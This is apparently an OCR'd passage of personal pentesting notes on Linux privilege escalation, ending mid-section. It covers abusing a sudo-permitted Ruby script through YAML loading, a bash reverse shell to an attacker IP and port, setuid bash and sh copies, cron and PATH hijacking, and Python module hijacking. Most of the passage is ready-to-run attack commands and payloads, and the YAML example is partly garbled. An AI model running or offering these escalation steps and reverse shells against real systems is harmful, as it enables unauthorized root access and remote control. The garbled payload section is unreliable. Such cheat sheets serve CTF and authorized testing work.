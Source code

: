 ### Sudo - Code Execution Through Yaml Using Ruby   
See this guide: https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/ruby-privilege-escalation/    
$ sudo -l     
Matching Defaults entries for user on x:    
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin      

User may run the following commands on x:   

    (root) NOPASSWD: /usr/bin/ruby /sample.rb   

    def list_from_file   
        YAML.load(File.read("dependencies.yml"))    
    End   

    git_set:"bash -c 'bash -i >& /dev/tcp/<local-ip>/<local-port> 0>&1'"    
    git_set: "chmod +s /bin/bash"    

## Cronjobs    
look for scripts you can write to running as a cronjob, writeable cron directory/crontab, writeable PATH directories used, wildcard expansion       

    cat /etc/crontab   
    crontab -l    
    ls -al /etc/cron*    
### PATH variable      
If a cronjob doesn’t use an absolute path and one of path dirs is writable by user: can create a script with the same name as the cron job so it is executed. 
default /usr/bin:/bin         

    echo $PATH 
    cat /etc/crontab     
### Rootbash script 
    #!/bin/bash 
    cp /bin/bash /tmp/rootbash 
    chmod +s /tmp/rootbash 

    #then run /tmp/rootbash -p    
### RootPython Script    

    import os    
    os.system("cp /bin/sh /tmp/sh;chmod u+s /tmp/sh")   
    #post cronjob run: /tmp/sh -p      
### Privilege Escalation Through Python Module Hijacking   
If if a Python script is running with elevated privileges and you can modify a directory in the Python PATH variable to inject code using a module import.         
Enumerate Python's path     

    python -c 'import sys; print(sys.path)'    
If you can modify part of the path to override an existing module: use RootPython above or a Python reverse shell to escalate. When the con job runs, it will import the malicious module and execute code.    
Example cron job script:    
